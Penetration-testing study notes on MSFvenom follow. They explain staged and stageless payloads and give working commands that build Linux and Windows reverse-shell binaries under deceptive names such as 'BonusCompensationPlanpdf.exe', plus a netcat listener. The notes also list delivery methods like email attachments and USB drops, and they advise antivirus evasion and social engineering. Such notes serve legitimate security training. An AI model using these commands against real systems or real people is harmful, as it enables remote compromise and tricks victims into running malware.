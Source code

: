 ## 1. Key Concepts

**MSFvenom** is a versatile tool used to generate and encode payloads for multiple platforms, including Windows, Linux, macOS, and Android.

**Payload Types:**

- **Staged Payloads:**
    
    - Send a small initial "stage" that connects back and retrieves the larger, full payload.
        
    - Smaller file size, but less stable in unreliable network conditions.
        
- **Stageless Payloads:**
    
    - Send the full payload in a single package.
        
    - Often more stable and preferred for low-bandwidth or restricted environments.
        
    - Easy to identify because the payload name **does not contain slashes (`/`)**.
        

---

## 2. General Command Structure

```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port> -f <format> > <filename>
```

- **-p** → Select the payload.
    
- **LHOST** → IP address of the attacker machine.
    
- **LPORT** → Listening port on the attacker machine.
    
- **-f** → Output format (e.g., `elf`, `exe`, `raw`).
    
- **>** → Output file name.
    

---

## 3. Linux Payload Example

**Generate Reverse Shell Payload:**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

**Explanation:**

- `LHOST` → Attacker IP.
    
- `LPORT` → Listening port.
    
- `-f elf` → Format the payload as a Linux ELF binary.
    
- `> createbackup.elf` → Save the payload as `createbackup.elf`.
    

**Delivery Methods:**

- Email attachments
    
- Drive-by downloads
    
- USB drops or internal access
    
- Exploiting internal services
    

**Start a listener:**

```bash
sudo nc -lvnp 443
```

---

## 4. Windows Payload Example

**Generate Reverse Shell Payload:**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

**Explanation:**

- `-f exe` → Output format as a Windows `.exe` file.
    
- Payload can be used with **social engineering** for execution.
    

**Requirements:**

- Antivirus bypass (unless AV is disabled).
    
- Convincing delivery technique for the victim to execute the file.
    

---

## 5. Key Tips

- **List all payloads:**
    
    ```bash
    msfvenom -l payloads
    ```
    
- **Use encoding and obfuscation** techniques to bypass antivirus or endpoint detection.
    
- **Match the payload architecture** to the target:
    
    - Use **x86** for 32-bit targets.
        
    - Use **x64** for 64-bit systems.
        
- Combine payload generation with **Metasploit modules** to automate delivery and post-exploitation.
    
